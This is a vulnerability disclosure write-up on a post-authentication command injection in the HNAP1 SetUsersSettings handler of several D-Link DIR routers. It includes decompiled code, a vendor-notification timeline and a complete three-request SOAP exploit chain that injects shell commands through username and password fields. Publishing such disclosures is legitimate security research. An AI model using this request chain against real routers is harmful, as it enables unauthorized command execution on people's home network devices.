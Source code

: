 # D-Link DIR-1960 : HNAP1 SetUsersSettings Post-Authenticated Command Injection

## Affected Software

Device : **D-Link DIR-1960, DIR-1360, DIR-2260 & DIR-3060**

Firmware: **1.11B03 Hotfix** **1.30**

Endpoint: http://purenetworks.com/HNAP1/

## Description of the vulnerability
This vulnerability is present as there are no checks on user input taken from the SetUsersSettings action, which is passed to `twsystem`, allowing an attacker to execute arbitary code on the affected installations of the D-Link DIR-878 router.

## Technical Details

### HNAP1

D-Link uses the HNAP1 (Home Network Administration Protocol) which is a SOAP-based protocol. It can be accessed through the http://purenetworks.com/HNAP1/ with a SOAPAction HTTP header to specify the desired operation. **/bin/prog.cgi** is responsible for receiving the incoming requests, and saves the user-given parameters into nvram after processing them. On the other hand, **/bin/rc** reads from nvram then performs the operation that is requested by the user.

**/bin/rc** spawns a UDP server at port 6789, which is used by **/bin/prog.cgi** to notify it whenever there is request made by the user.

### Vulnerability

#### /bin/prog.cgi receives the request

In the **/bin/prog.cgi** binary, at the `SetUsersSettings` handler (0x498308), the parameters `UserName` and `Password` are read from the XML data in the request body, saved into nvram as `USB_Account%d_Username` and `USB_Account%d_Password`, where `%d` is the index of the user parameter (multiple users' information are provided through one request). In particular, after `SetUsersSettings` reads the parameters from the request body, they are stored in memory, and passed to a function at 0x497af4 to save them into nvram.

After this, two more requests need to be made:

1. `SetSMBStatus` to enable SMB
2. `SetFTPSettings` to trigger the vulnerable code path in **/bin/rc** by calling `serviceApply(local_20,0x2b)`:

```c
case 0x2b:
    notify_rc("restart_usb_service");
    break;
```

#### /bin/rc handles the request

Inside `handle_notifications`, the `restart_usb_service` string leads to the followinga call to the function at 0x44e094, which calls 0x451080.

```c
cmp = strcmp(local_1d8,usb_service");
// mode == 3 when the notification starts withrestart_"
if (cmp == 0) {
    if ((mode & 1) != 0) {
        FUN_0044e064();
    }
    if ((mode & 2) != 0) {
        FUN_0044e094();
    }
}
```

Inside 0x451080, the program first checks if SMB is enabled. This is done by `SetSMBStatus` as mentioned earlier. Then, it checks if at least one of **/tmp/usbdisk0**, **/tmp/usbdisk1** or **/tmp/usbdisk2** exists. Unfortunately, these files are only created when a USB device is plugged into the router.

If the check is satisfied, it will call the vulnerable function at 0x450ce0. The function loads `USB_Account%d_UserName` and `USB_Account%d_Password` from nvram, and passes them into `twsystem`.

```c
snprintf(cmd, 0x200,( echo \"%s\"; echo \"%s\" ) | smbpasswd -c %s -s -a %s",
        password, password,/etc/smb.conf", username);
twsystem(cmd, 1);
```

An attacker can provide malicious values for the username and password strings to perform a command injection attack.

## Exploit

After authenticating, send the following SOAP requests to http://purenetworks.com/HNAP1/.

### Enable SMB

```xml
Content-Type: text/xml; charset=utf-8
SOAPAction: http://purenetworks.com/HNAP1/SetSMBStatus

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
    <soap:Body>
        <SetSMBStatus xmlns="http://purenetworks.com/HNAP1/">
            <Enabled>true</Enabled>
        </SetSMBStatus>
    </soap:Body>
</soap:Envelope>
```

### To store the malicious values into nvram

```xml
Content-Type: text/xml; charset=utf-8
SOAPAction: http://purenetworks.com/HNAP1/SetUsersSettings

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
    <soap:Body>
        <SetUsersSettings xmlns="http://purenetworks.com/HNAP1/">
            <StorageUsersLists>
                <StorageUser>
                    <UserName>user1</UserName>
                    <Password>password1</Password>
                    <Enabled>true</Enabled>
                    <ServiceInfoLists>
                        <ServiceInfo>
                            <ServiceName>SAMBA</ServiceName>
                            <Enabled>true</Enabled>
                            <AccessPath>/</AccessPath>
                            <Permission>true</Permission>
                        </ServiceInfo>
                    </ServiceInfoLists>
                </StorageUser>
                <StorageUser>
                    <UserName>user$(echo gg>/tmp/gg)</UserName>
                    <Password>password$(echo gg>/tmp/gg)</Password>
                    <Enabled>true</Enabled>
                    <ServiceInfoLists>
                        <ServiceInfo>
                            <ServiceName>SAMBA</ServiceName>
                            <Enabled>true</Enabled>
                            <AccessPath>/</AccessPath>
                            <Permission>true</Permission>
                        </ServiceInfo>
                    </ServiceInfoLists>
                </StorageUser>
            </StorageUsersLists>
        </SetUsersSettings>
    </soap:Body>
</soap:Envelope>
```

### To trigger the vulnerable code path

```xml
Content-Type: text/xml; charset=utf-8
SOAPAction: http://purenetworks.com/HNAP1/SetFTPSettings

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
    <soap:Body>
        <SetFTPSettings xmlns="http://purenetworks.com/HNAP1/">
            <Enabled>true</Enabled>
            <RemoteFTP>true</RemoteFTP>
            <FTPPort>21</FTPPort>
            <IdleTime>10000</IdleTime>
        </SetFTPSettings>
    </soap:Body>
</soap:Envelope>
```

### Usage

```
$ npm install
$ node app.js
```

Credits: https://github.com/bikerp/dsp-w215-hnap

## Timeline
20th July 2021 - First attempt to notify vendor

05th April 2022 - Second attempt to notify vendor

07th April 2022 - Third attempt to notify vendor

24th June 2022 - Fourth attempt to notify vendor

27th June 2022 - FundayFriday release